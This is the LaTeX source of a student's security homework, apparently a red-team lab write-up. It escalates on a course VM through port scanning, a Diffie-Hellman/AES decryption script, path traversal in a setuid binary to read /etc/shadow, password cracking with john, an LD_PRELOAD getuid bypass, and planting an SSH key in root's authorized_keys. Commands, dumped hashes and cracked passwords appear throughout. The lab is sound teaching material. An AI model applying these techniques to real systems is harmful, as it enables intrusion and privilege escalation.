\documentclass[12pt, a4paper]{article}
\usepackage{enumitem}
\usepackage{float}
\usepackage[left=2cm, right=2cm, top=2cm, bottom=2cm]{geometry}
\usepackage{graphicx}
\usepackage[colorlinks, urlcolor=blue]{hyperref}
\usepackage{minted}
\usepackage{xeCJK}

\renewcommand\arraystretch{1.5}
\setCJKmainfont[AutoFakeBold=1.5]{新細明體}
\setlength{\parindent}{0pt}

\setminted{
  frame=single,
  tabsize=2,
}

\title{
  \vspace{-1cm}
  Network Administration/System Administration\\
  (NTU CSIE, Spring 2024)\\
  Homework \#12 - Security (Part II)
}
\author{\Large B12902110 呂承諺}

\begin{document}
  \maketitle

  \section{Red Team}
  \begin{enumerate}[label=(\alph*)]
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Download \verb|id_e25519| from folder \verb|NASAHW12_2024_SECURTIY| on Google Drive.
      \item Run \verb|chmod 600 id_e25519|.
      \item Run \verb|ssh -i id_e25519 student@10.0.2.17|. We get an error however.
      \begin{Verbatim}[frame=single]
ssh: connect to host 10.0.2.17 port 22: Connection refused
      \end{Verbatim}
      \item Run \verb|nmap -v -sV 10.0.2.17| to scan open ports on \verb|nasa_hw11_red|. We discover that the SSH service actually runs on
      port 22087.
      \begin{Verbatim}[frame=single, commandchars=\\\{\}]
PORT      STATE SERVICE         VERSION
8888/tcp  open  sun-answerbook?
9999/tcp  open  abyss?
\textcolor{red}{22087/tcp open  ssh             OpenSSH 9.6 (protocol 2.0)}
      \end{Verbatim}
      \item Run \verb|ssh -p 22087 -i id_25519 student@10.0.2.17| to login
      to \verb|nasa_hw11_red|.
      \item Run \verb|cat flag1|.
    \end{enumerate}
    \textbf{Flag}\quad\verb|NASA{W0W_Y0U_KN0W_NM49_70_5C4N_55H_H093_Y0U_D0N'7_BRU73_F0RC3_17}|

    \textbf{Result}

    
\includegraphics[width=0.8\linewidth]{1-a_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://man.openbsd.org/ssh}{ssh(1) - OpenBSD manual pages}
    \end{itemize}

    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item From the previous subtask, we discover that the service on port 8888 says something
      about nasa2024 and nasa2023.

      
\includegraphics[width=0.9\linewidth]{1-b_nmap.png}

      \item Run \verb|nc 10.0.2.17 8888|. We get a prompt for Diffie–Hellman key exchange. After
      entering some random value for \verb|v|, we get some ciphertext which is claimed
      to be encrypted with AES in CBC mode.

      \item Therefore, we use Python's \verb|cryptography| package to code a simple script
      that handles Diffie–Hellman key exchange and AES decryption.

      \begin{minted}[fontsize=\scriptsize]{python}
# 1-b.py
from cryptography.hazmat.primitives import ciphers
from cryptography.hazmat.primitives.asymmetric import dh
from cryptography.hazmat.primitives.ciphers import algorithms
from cryptography.hazmat.primitives.ciphers import modes


def dh_shared_key(p: int, g: int, u: int) -> bytes:
    parameter_numbers = dh.DHParameterNumbers(p, g)
    parameter = parameter_numbers.parameters()
    server_public_numbers = dh.DHPublicNumbers(u, parameter_numbers)
    server_public_key = server_public_numbers.public_key()

    client_private_key = parameter.generate_private_key()
    print(f'v = {client_private_key.public_key().public_numbers().y}')

    shared_key = client_private_key.exchange(server_public_key)
    print(f'shared_key = {shared_key.hex()}')
    return shared_key


def aes_cbc_decrypt(ciphertext: bytes, key: bytes, iv: bytes) -> bytes:
    cipher = ciphers.Cipher(algorithms.AES(key), modes.CBC(iv))
    decryptor = cipher.decryptor()
    return decryptor.update(ciphertext) + decryptor.finalize()


def main():
    p = 225767...319809  # Omitted.
    g = 7
    u = int(input('u = '))

    aes_key = dh_shared_key(p, g, u)[:16]
    print(f'aes_key = {aes_key.hex()}')

    iv = bytes.fromhex(input('iv = '))
    ciphertext = bytes.fromhex(input('ecrypted password = '))
    print('decrypted password = '
          f'{aes_cbc_decrypt(ciphertext, aes_key, iv).decode()}')

if __name__ == '__main__':
    main()
      \end{minted}

      \pagebreak
      \item Interact with the service and our script.

      Service:
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines]
$ nc 10.0.2.17 8888
Hi nasa2024! I am nasa2023. Let's perform Diffie Hellman Key Exchange to send my password to you.
Public Parameters:
p = 225767...319809
g = 7
============================================================
u = 179725...888786
v = 404983...526141
Good, I believe we build a shared secret that only you and I know.
Now, I will encrypt my password with AES in CBC mode using the first 16 bytes of shared secret (padding with zero byte until length of 16 bytes) as the key
============================================================
IV in hex format: 580b40e831f27e903af54ff9f5fe2670
Encrypted password in hex format: 04e150313ac4197b6379aa2886cbeb7cbb758a5d261abf1d31cd2c926fa47e77
============================================================
      \end{Verbatim}

      Script:
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, commandchars=\\\{\}]
$ python 1-b.py
u = 179725...888786
v = 404983...526141
shared_key = 16d148...8612f9
aes_key = 16d148a2b10ef1e3e3d8eff46a1779f7
iv = 580b40e831f27e903af54ff9f5fe2670
ecrypted password = 04e150313ac4197b6379aa2886cbeb7cbb758a5d261abf1d31cd2c926fa47e77
decrypted password = \textcolor{red}{yLXGn4S3wYeAMnF7UySEsw9wMPdh5v2e}
      \end{Verbatim}

      We obtain the password for user nasa2023: \verb|yLXGn4S3wYeAMnF7UySEsw9wMPdh5v2e|.

      \item Use the obtained password to login as nasa2023. Run \verb|cat flag2| to obtain the flag.
    \end{enumerate}

    \textbf{Flag}\quad\verb|NASA{CRY706R49HY_4150_1M90R74N7_1N_CYB3R53CUR17Y!}|.

    \textbf{Result}

    
\includegraphics[width=0.9\linewidth]{1-b_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange}{Diffie–Hellman key exchange - Wikipedia}
      \item \href{https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation}{Block cipher mode of operation - Wikipedia}
      \item \href{https://en.wikipedia.org/wiki/Advanced_Encryption_Standard}{Advanced Encryption Standard - Wikipedia}
      \item \href{https://docs.python.org/3/library/functions.html}{Built-in Functions — Python 3.12.3 documentation}
      \item \href{https://docs.python.org/3/library/stdtypes.html}{Built-in Types — Python 3.12.3 documentation}
      \item \href{https://pypi.org/project/cryptography/}{cryptography · PyPI}
      \item \href{https://cryptography.io/en/latest/hazmat/primitives/asymmetric/dh/}{Diffie-Hellman key exchange — Cryptography 43.0.0.dev1 documentation}
      \item \href{https://cryptography.io/en/latest/hazmat/primitives/symmetric-encryption/}{Symmetric encryption — Cryptography 43.0.0.dev1 documentation}
    \end{itemize}

    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item There is \verb|README.txt| in \verb|/home/nasa2023|. It gives some
      information regarding \verb|/root/comic-server/comic-server|.
      \item Run \verb|stat /root/comic-server|. We discover that its file permissions
      is set to \verb|4755|, with \verb|setuid| on.
      \begin{Verbatim}[frame=single, fontsize=\small, commandchars=\\\{\}]
localhost:~$ stat /root/comic-server/comic-server
  File: /root/comic-server/comic-server
  Size: 19384           Blocks: 40         IO Block: 4096   regular file
Device: 803h/2051d      Inode: 130039      Links: 1
\textcolor{red}{Access: (4755/-rwsr-xr-x)}  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-06-07 22:45:40.289998287 +0800
Modify: 2024-05-09 22:33:04.379999973 +0800
Change: 2024-05-09 22:33:13.406666636 +0800
      \end{Verbatim}
      \item Dive into \verb|comic-server.c|. We see that in \verb|void read_comic()|, the
      user input \verb|comic_name| is append after \verb|path|. Therefore, we can
      engineer \verb|comic_name| to contain multiple leading \verb|../|'s to access
      any file as root.
      \item Run \verb|/root/comic-server/comic-server|. Choose \verb|2. Read a comic| and
      type in \verb|../../../etc/shadow| as the comic name. This allows us to see the
      content of \verb|/etc/shadow| and therefore obtain nasa2024's hashed password.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines, breakanywhere, breakanywheresymbolpre=]
localhost:/etc$ localhost:/etc$ /root/comic-server/comic-server
Welcome to my comic server!
I have a lot of comic for you to read. Enjoy!
Please select your action:
1. List all comic
2. Read a comic
3. Submit a comic
4. Talk to root
5. Exit
2
Please enter the comic name: ../../../etc/shadow
root:$6$M03rcP5w38H7hYwm$HWKrqjG9ZdY97E2eKWjNIt6biVCVPkVxZZvsfYPoEtk9P30.PfAzgtjI2IPXj9u7Mo0vLxp7U0u.MjFGXehKu.:19850:0:::::
(...)
nasa2023:$6$6qkngoIeqsMizLEE$Mw3jduV64bfY3yd0otGjaMh2nRJFO/WwXGE6qHF27bbZZq15MJORt3JMy54gfSiDJY43AhNeVynnQHGWp4cz41:19850:0:99999:7:::
student:$6$I7GFgsWJRqjNEt1R$ZmWXyy8rK.Imn0V4Jk6Nr7DpjZmoNTZffrtH9pw4ZVr9GX3NYU09pCA7HOtw7flIxXsmjNt7pQwqk9xslrKhi1:19850:0:99999:7:::
nasa2024:$6$fho8wb1AS1tFC5N3$/eNgObHyRphLNbS4FpeAd2wZG.lk33kIVVK21bJDG46rOJ7SsbglPPyw39IrS5YGyPibFD.S4MAih82ldPjFO1:19850:0:99999:7:::
      \end{Verbatim}

      \item Save the hashed password of user nasa202ˋ into file \verb|nasa2024_password.txt|.
      Then crack the password with \verb|john|.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, commandchars=+\{\}]
$ echo \
    '$6$fho8wb1AS1tFC5N3$/eNgObH......MAih82ldPjFO1' \ # Omitted.
    > nasa2024_password.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt nasa2024_password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
+textcolor{red}{peanutbutter}     (?)
1g 0:00:00:07 DONE (2024-06-07 11:06) 0.1257g/s 515.2p/s 515.2c/s 515.2C/s cheska..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
      \end{Verbatim}

      \item The password is indeed weak: \verb|peanutbutter|. Use it to login asˋ
      nasa2024, and \verb|cat flag3| to obtain the flag.
    \end{enumerate}

    \pagebreak
    \textbf{Flag}\quad\verb|NASA{533M5_11K3_Y0U_4773ND_14B_7H15_W33K!}|

    \textbf{Result}

    
\includegraphics[width=\linewidth]{1-c_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://man7.org/linux/man-pages/man2/open.2.html}{open(2) - Linux manual page}
      \item \href{https://man7.org/linux/man-pages/man3/opendir.3.html}{opendir(3) - Linux manual page}
      \item \href{https://man7.org/linux/man-pages/man3/readdir.3.html}{readdir(3) - Linux manual page}
      \item \href{https://en.wikipedia.org/wiki/Setuid}{setuid - Wikipedia}
    \end{itemize}

    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Same as the last subtask, we can use \verb|/root/comic-server/comic-server|
      to get the content of \verb|/root/flag4|. We write it to a file this time.
      \begin{Verbatim}[frame=single, fontsize=\small]
$ /root/comic-server/comic-server > flag4
2
../../flag4
5
      \end{Verbatim}
      However, the output file would contain prompt of \verb|comic-server|, so we delete
      them ourselves.

      \item Run \verb|flag4|. Sadly, it tells us that we must be root.
      \begin{Verbatim}[frame=single]
localhost:~$ ./flag4
You must be root to run this program
      \end{Verbatim}
      \item So, we try to disassemble the program. Upload the binary file to
      \href{https://dogbolt.org/}{Decompiler Explorer}.
      We see that the main function calls \verb|getuid()| first to check if the
      UID is 0. This could be our point of attack.
      \item After some research, we found out that \verb|getuid()| could be tricked
      by \verb|LD_PRELOAD|. So, we create \verb|fake_uid.c| with our fake \verb|getuid()|
      function.
      \begin{minted}{cpp}
// fake_uid.c
int getuid() {
  return 0;
}
      \end{minted}
      Compile it into a shared library with the following command.
      \begin{Verbatim}[frame=single]
$ gcc -shared -fPIC -o fake_uid.so fake_uid.c
      \end{Verbatim}

      \item Run \verb|flag4| while forcing it to load our library with the fake \verb|getuid()|.
      \begin{Verbatim}[frame=single]
$ LD_PRELOAD=/home/nasa2023/fake_uid.so ./flag4
      \end{Verbatim}
      And we successfully obtained the flag.
    \end{enumerate}
    \textbf{Flag}\quad\verb|NASA{y0u_kn0w_r3v3r53_3n61n33r1n6!_50_c0011}|

    \textbf{Result}

    
\includegraphics[width=0.8\linewidth]{1-d_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://www.linuxquestions.org/questions/programming-9/faking-uids-917910/}{Faking uids}
      \item \href{https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/}{Dynamic linker tricks: Using LD\_PRELOAD to cheat, inject features and investigate programs | Rafał Cieślak's blog}
    \end{itemize}

    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item With SSH's public key authentication, we can login without the password.\\
      So, we write the contents of \verb|/home/student/.ssh/authorized_keys| to \\
      \verb|/root/.ssh/authorized_keys| using the \verb|3. Submit a comic| functionality of \\
      \verb|/root/comic-server/comic-server|.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines]
$ cat /home/student/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILKifq9N8pB3vCgZHje9vuhaJFlvdnFCSxV9oPnIENP8 nasa2024@kali
$ /root/comic-server/comic-server
Welcome to my comic server!
 I have a lot of comic for you to read. Enjoy!
Please select your action:
1. List all comic
2. Read a comic
3. Submit a comic
4. Talk to root
5. Exit
3
Please enter the comic name: ../../.ssh/authorized_keys
Please enter the comic content: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILKifq9N8pB3vCgZHje9vuhaJFlvdnFCSxV9oPnIENP8 nasa2024@kali
Comic submitted
      \end{Verbatim}
      \item This would allow us to login with the same private key as subtask (a), except
      this time as root.
      \begin{Verbatim}[frame=single]
$ ssh -p 22087 -i id_e25519 root@10.0.2.17
      \end{Verbatim}
    \end{enumerate}
    \textbf{Result}

    
\includegraphics[width=\linewidth]{1-e_result.png}
  \end{enumerate}
\end{document}
